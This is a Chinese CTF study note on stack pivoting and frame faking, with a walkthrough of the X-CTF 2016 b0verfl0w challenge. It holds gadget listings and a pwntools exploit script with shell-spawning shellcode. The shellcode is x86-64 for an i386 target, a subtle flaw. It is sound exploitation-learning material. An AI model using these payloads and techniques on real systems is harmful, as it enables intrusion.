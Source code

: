 ```yaml
---
title: 花式栈溢出
date: 2023-04-24 20:37:48
tags:
---
```

本文是本人跟着ctf-wiki上学之后做的笔记，自认为写得比较详细

## 栈转移

栈转移是指劫持`SP`指针到我们能控制的位置，以便实现一些之前不方便的操作

一般来说需要使用该技巧的情况有：

- 可控的栈溢出字节数较少，难以构造长 payload 进行 rop
- 有PIE地址随机化，栈地址未知。可以通过劫持转移栈到已知地址
- 其他漏洞难利用，转换后更方便，比如把栈转移到堆空间后写rop

要求有：

- 可控程序执行流
- 可控`SP`指针

一般来说控制`SP`指针用`pop rsp/esp`

`__libc_csu_init`中就有这种gadgets，但要使用偏移

```python
gef➤  x/7i 0x000000000040061a
0x40061a <__libc_csu_init+90>:  pop    rbx
0x40061b <__libc_csu_init+91>:  pop    rbp
0x40061c <__libc_csu_init+92>:  pop    r12
0x40061e <__libc_csu_init+94>:  pop    r13
0x400620 <__libc_csu_init+96>:  pop    r14
0x400622 <__libc_csu_init+98>:  pop    r15
0x400624 <__libc_csu_init+100>: ret    
gef➤  x/7i 0x000000000040061d
0x40061d <__libc_csu_init+93>:  pop    rsp  # 原本pop r12
0x40061e <__libc_csu_init+94>:  pop    r13
0x400620 <__libc_csu_init+96>:  pop    r14
0x400622 <__libc_csu_init+98>:  pop    r15
0x400624 <__libc_csu_init+100>: ret
```

此外，还有更加高级的 fake frame，要求有一段可以控制内容的内存，一般是如下：

- bss 段。由于进程按页分配内存，分配给 bss 段的内存大小至少一个页 (4k，0x1000) 大小。然而一般 bss 段的内容用不了这么多的空间，并且 bss 段分配的内存页拥有读写权限。
- heap。但是这个需要我们能够泄露堆地址。

### X-CTF Quals 2016 - b0verfl0w

```
checksec: 什么都没开
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

IDA反编译：

```c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin); # 读50个字符，不好构造长payload
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

这题的思路是在栈上填入短`shellcode`，然后想办法`jmp esp`，`EIP`就会跳到栈上。我们提前在栈上填入机器码处理`esp`，使`esp`指向`shellcode`后再次`jmp esp`

构造的payload结构如下：

`shellcode|padding|ebp|jmp_esp_addr|asm("sub esp, 0x?;jmp esp")`

```bash
# 查找 jmp esp
$ ROPgadget --binary b0verfl0w --only "jmp"|grep esp
0x08048504 : jmp esp
```

执行`sub esp`时`ESP`到shellcode的距离可以通过看payload长度计算出来

首先`shellcode+padding`是0x20

`ebp`0x4

`jmp_esp_addr` 0x4

我们需要设置`esp`到`shellcode`，而此时`esp`在`jmp_esp_addr`的后面指向asm，所以需要对`esp` - 0x28

exp：

```python
from pwn import *
sh = process("./b0verfl0w")

shellcode = b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73"
shellcode += b"\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
shellcode.ljust(0x20, b'a') # 填充shellcode长度
sub_esp_jmp_esp = asm("sub esp, 0x28;jmp esp") #生成机器码
jmp_esp_addr = 0x08048504
payload = flat([shellcode, "bbbb", jmp_esp_addr, sub_esp_jmp_esp])
sh.sendline(payload)
sh.interactive()
```

## frame faking(栈伪造)

构建一个虚假的栈帧来控制程序的执行流。我们需要同时控制`IP`和`BP`寄存器，这样我们就能在控制程序执行流的同时也改变栈帧的位置

以下内容基于x86架构

这种攻击方式payload的格式一般如下：`buffer padding|fake ebp|leave_ret_addr|`其中`fake ebp`为我们构造的假栈帧的基址。注意这里多了`leave`指令

回顾`leave`指令的等效用法：`mov esp, ebp; pop ebp` 在执行此命令之前，`EBP`指向栈中saved ebp

执行后，`EBP`回到主调函数位置，`ESP`指向retaddr

而`ret`指令实际上等效于`pop eip`，执行后`ESP`完全回到主调函数的原位置

上面提到的payload中，`retaddr`被覆盖为`leave_ret_addr`，这导致程序ret后会再次执行`leave` `ret`

接下来的描述有点绕，在这里先明确一些代号：

- `ebp2`是一个值，这个值是一个内存地址，是我们最终想赋给寄存器`EBP`的值(使`EBP`指向这个地址)
- `ebp2_addr`是一个值，这个值是一个内存地址，该处内存保存着`ebp2`的值

假栈帧大致格式：

```

+---------------------+
| arg2 of function    | 高地址
+---------------------+
| arg1 of function    |
+---------------------+
| leave_ret_addr      |
+---------------------+
| target function addr|
+---------------------+
| ebp2                |
+---------------------+ <- ebp2_addr
```

payload的`fake ebp` 就是 `ebp2_addr`:

```
buffer padding|fake ebp|leave_ret_addr|
buffer padding|ebp2_addr|leave_ret_addr|
```

利用此payload，我们可以依次做以下事情：

```nasm
leave:
	mov esp, ebp
	pop ebp # 使ebp变为ebp2_addr

ret # run leave ret again

leave:
	mov esp, ebp # 使esp也变为ebp2_addr，这让esp指向了ebp2_addr
	pop ebp # 此时esp指向ebp2_addr，此操作会将该处内存的ebp2值赋给ebp

ret # return to target function 需要提前在ebp2_addr+4处写入target function addr

# after target function, return to leave_ret_addr
# 然后程序又会执行类似的操作。如果我们在ebp2指向的地址处也设置好了相应内容，就能继续劫持ebp+eip
# 当然，如果假栈帧能控制的大小足够长，我们也可以直接像以前一样构造纯粹的rop，不再借助leave ret
# 即假栈帧的结构为:

+---------------------+
| ...                 | 高地址
+---------------------+
| next_retaddr        |
+---------------------+
| arg2                |
+---------------------+
| arg1                |
+---------------------+
| pop_xxx_pop_xxx_ret |
+---------------------+
| target function addr|
+---------------------+
| ebp2                | 
+---------------------+ <- ebp2_addr
```

### 待添加
